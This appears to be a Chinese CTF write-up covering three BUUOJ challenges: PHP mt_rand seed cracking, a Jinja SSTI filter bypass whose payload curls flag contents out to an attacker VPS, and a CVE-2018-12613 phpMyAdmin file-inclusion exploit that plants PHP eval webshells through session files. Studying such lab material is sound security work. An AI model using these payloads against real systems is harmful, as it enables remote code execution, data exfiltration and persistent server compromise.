

1.枯燥的抽奖
伪随机数种子猜解，这里用别人写好的工具php_mt_seed找到种子，先转换成工具容易识别的格式，然后得到种子，找到后面的数字即可。
1 | str1='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ' |

1 |
|
2.你的名字
ssti，过滤了一些关键字为空，不能有，给出payload，vps上nc -lvp port，效果如下
1 | {% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclasconfigses__()[59].__inconfigit__.fconfigunc_glconfigobals.linecconfigache.oconfigs.popconfigen('curl http://ip:prot/ -d `ls /|grep flag`;') %}1{% endiconfigf %} //找flag |
1 | {% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclasconfigses__()[59].__inconfigit__.fconfigunc_glconfigobals.linecconfigache.oconfigs.popconfigen('curl http://ip:prot/ -d `cat /flag_1s_Hera`;') %}1{% endiconfigf %} //读flag |

3.我有一个数据库
CVE-2018-12613的复现，影响版本:4.8.0—4.8.1。访问phpmyadmin直接进来phpmyadmin界面，发现版本为4.8.1测试一下存在CVE-2018-12613包含漏洞。
盲猜flag在根目录
1 | http://083f32c3-c02b-4539-b8ee-1143cd206bb0.node3.buuoj.cn/phpmyadmin?target=db_sql.php%253f/../../../../../../../../flag //得到flag |
这样就没意思啦，想办法getshell，用它这个漏洞包含日志getshell，但是前提我们要知道日志的路径，它在robots.txt给了一个phpinfo页面，查看一下session.save_path的值可以得到路径。(一般默认就是这个 /var/lib/php/sessions )

在phpmyadmin中执行sql语句，如select ‘<?php @eval($_GET[“a”]);?>’，然后这句话会写到日志，将日志包含就可以(ps:测试环境好像不能post传参)

然后找到session的值，命名时会在session的值前面+sess_，所以最终payload如下
1 | http://083f32c3-c02b-4539-b8ee-1143cd206bb0.node3.buuoj.cn/phpmyadmin?target=db_sql.php%253f/../../../../../../../..//var/lib/php/sessions/sess_oolmt4nq15g2hlg01034uqousu&a=phpinfo(); |
但是这个日志太多看得难受，试了一下能不能写文件上去，发现是可以的，在1.php写进了一句话
1 | http://083f32c3-c02b-4539-b8ee-1143cd206bb0.node3.buuoj.cn/phpmyadmin?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_oolmt4nq15g2hlg01034uqousu&a=file_put_contents('1.php','<?php @eval($_POST[a]);?>'); |
现在感觉就好多了，最后找到flag。